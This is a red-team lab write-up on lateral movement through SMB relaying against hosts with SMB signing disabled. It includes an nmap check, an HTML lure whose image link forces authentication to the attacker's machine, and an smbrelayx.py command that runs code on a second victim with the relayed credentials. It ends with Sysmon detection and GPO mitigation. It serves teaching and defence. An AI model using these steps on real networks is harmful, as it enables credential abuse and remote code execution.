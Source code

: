 ```yaml
---
layout: post
title: "lateral movement via smb relaying by abusing lack of smb signing"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing/
---
```


---
layout: post
title: "lateral movement via smb relaying by abusing lack of smb signing"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing/
---

# Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled.&#x20;

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-> `10.0.0.5` -relays to-> `10.0.0.6` executes code with victim1(10.0.0.2) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-31 10-45-27.png>)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode %}

{% hint style="info" %}
Any other forced authentication method will also work - follow below link for a list of techniques.
{% endhint %}

{% content-ref url="../initial-access/t1187-forced-authentication.md" %}
[t1187-forced-authentication.md](../initial-access/t1187-forced-authentication.md)
{% endcontent-ref %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code title="attacker@kali" %}
```
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode %}

{% hint style="info" %}
Note that smbrelayx could be used with a `-e` switch that allows attacker to execute their payload file - say, a meterpreter executable.
{% endhint %}

Below is a gif showing the technique in action - on the left - `victim1@10.0.0.2` opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system (on the right). Once the authentication attempt comes in, it gets relayed to `victim2@10.0.0.6` and ipconfig gets executed:

![](<../../.gitbook/assets/Peek 2018-12-30 22-31.gif>)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](<../../.gitbook/assets/Screenshot from 2018-12-30 22-33-59.png>)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](<../../.gitbook/assets/Screenshot from 2018-12-31 13-29-13.png>)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network server: Digitally sign communications (always)** to `Enabled`:

![](<../../.gitbook/assets/Screenshot from 2018-12-31 10-36-45.png>)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](<../../.gitbook/assets/Screenshot from 2018-12-30 22-36-01.png>)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-31 11-05-59.png>)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}

@spotheplanet
